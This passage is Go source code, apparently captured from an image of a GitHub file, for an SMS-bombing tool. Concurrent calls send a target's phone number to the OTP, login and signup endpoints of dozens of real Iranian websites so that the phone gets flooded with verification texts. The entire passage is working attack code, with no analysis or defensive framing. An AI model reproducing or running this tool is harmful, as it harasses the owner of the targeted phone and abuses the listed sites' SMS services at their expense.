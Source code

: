 		}, ch)
		go sms("https://exo.ir/index.php?route=account/mobile_login", map[string]interface{}{
			"mobile_number": phone,
		}, ch)
		go sms("https://shahrfarsh.com/Account/Login", map[string]interface{}{
			"phoneNumber=": phone,
		}, ch)
		go sms("https://takfarsh.com/wp-content/themes/bakala/template-parts/send.php", map[string]interface{}{
			"phone_email": phone,
		}, ch)
		go sms("https://shop.beheshticarpet.com/my-account/", map[string]interface{}{
			"billing_mobile": phone,
		}, ch)
		go sms("https://www.khanoumi.com/accounts/sendotp", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://rojashop.com/api/auth/sendOtp", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://dadpardaz.com/advice/getLoginConfirmationCode", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://api.rokla.ir/api/request/otp", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://khodro45.com/api/v1/customers/otp/", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://mashinbank.com/api2/users/check", map[string]interface{}{
			"mobileNumber": phone,
		}, ch)
		go sms("https://api.pezeshket.com/core/v1/auth/requestCode", map[string]interface{}{
			"mobileNumber": phone,
		}, ch)
		go sms("https://virgool.io/api/v1.4/auth/verify", map[string]interface{}{
			"'method': 'phone', 'identifier'": phone,
		}, ch)
		go sms("https://api.timcheh.com/auth/otp/send", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://client.api.paklean.com/user/resendCode", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://mobogift.com/signin", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://api.iranicard.ir/api/v1/register", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://tj8.ir/auth/register", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://mashinbank.com/api2/users/check", map[string]interface{}{
			"mobileNumber": phone,
		}, ch)
		go sms("https://cinematicket.org/api/v1/users/signup", map[string]interface{}{
			"phone_number": phone,
		}, ch)
		go sms("https://www.irantic.com/api/login/request", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://kafegheymat.com/shop/getLoginSms", map[string]interface{}{
			"phone": phone,